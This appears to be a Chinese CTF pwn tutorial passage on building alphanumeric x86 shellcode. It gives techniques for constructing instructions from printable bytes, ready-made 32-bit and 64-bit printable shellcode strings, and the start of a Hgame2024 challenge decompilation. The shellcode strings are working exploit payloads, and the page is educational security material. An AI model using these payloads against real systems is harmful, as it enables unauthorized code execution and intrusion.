 可以看看这几位师傅的文章：

[手把手教你写纯字符 ascii shellcode——最通俗易懂的 alphanumeric shellcode 生成指南\_ascii 可见 shellcode](https://blog.csdn.net/SmalOSnail/article/details/105236336)

[ASCII 码-shellcode](https://zhuanlan.zhihu.com/p/652061031)

[可见 shellcode 字符的艺术-Pwn](https://bbs.kanxue.com/thread-274652.htm#msg_header_h2_7)

部分实用技巧：

1.  NULL 的妙用  
    利用 NULL 字符被解析成的`add byte ptr [rax], al`默认指令，找出需要构造指令的值与白名单字符中是否有倍数关系，控制默认指令执行次数即可构造，比如`ret(0xc3)`指令，`0xc3/0x41=3`，则控制`al`为`0x41`执行三次默认指令后，就会在`+0x41`偏移处构造出`ret`指令，空出的部分可以用无意义指令填充
2.  地址低字节偏移不变  
    利用`libc`或程序中的函数地址最低三位偏移不变，找出与其异或可以构造出的指令值（一次异或不行可以多次），就可以稳定构造指令，比如在程序中出现的`__libc_csu_init`地址以`a0`结尾，那么找到`0xa0^0x52^0x31=0xc3`，既然结尾的`a0`偏移不变，那就保证了每次百分百构造出`ret`指令
3.  xor+add  
    很多时候，手中的白名单字符相互异或都无法构造出需要的值，我们可以先通过比如`xor dword ptr [rax+0x54],ecx`指令向其异或构造出一些值，再将`al`控制相同的立即数，按照例子就是`0x54`（要保证写入的地址一样），再去执行一次默认指令`add`，就结合了异或和加法运算，可以构造出更多的值
4.  push+ret 实现流程控制  
    把想要多次执行的指令放在`shellcode`末尾，然后构造出想要多次执行的指令的起始地址，控制`push`次数来控制循环次数，最后跳到目的地就行，实用的示例就是构造地址的时候，算出偏移量后一直除以 2，看字节是否都方便构造，然后控制执行多次`add`指令还原出最终的偏移值再利用
5.  jz 指令  
    比如`jz $+0x50`指令也是可见字符，可以实现短跳，不过应用范围不广

这里也给一些能用的纯 ascii 字符 shellcode

#### 32 位 纯 ascii 字符 shellcode

```plain
PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJISZTK1HMIQBSVCX6MU3K9M7CXVOSC3XS0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE22I2NFOSCRHEP0WQCK9KQ8MK0AA
```

#### 64 位 纯 ascii 字符 shellcode

```plain
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t
```

#### 例：Hgame2024 ezshellcode

ida：

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v4; // [rsp+Ch] [rbp-14h] BYREF
  void (*v5)(void); // [rsp+10h] [rbp-10h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  init(argc, argv, envp);
  v5 = (void (*)(void))(int)mmap((void *)0x20240000, 0x1000uLL, 7, 33, -1, 0LL);
  if ( v5 == (void (*)(void))-1LL )
  {
    perror("mmap");
    exit(1);
  }
  printf("input the length of your shellcode:");
  __isoc99_scanf("%2d", &v4);
  if ( (int)v4 <= 10 )
  {
    printf("input your shellcode:");
    myread(v5, v4);
  }
  else
```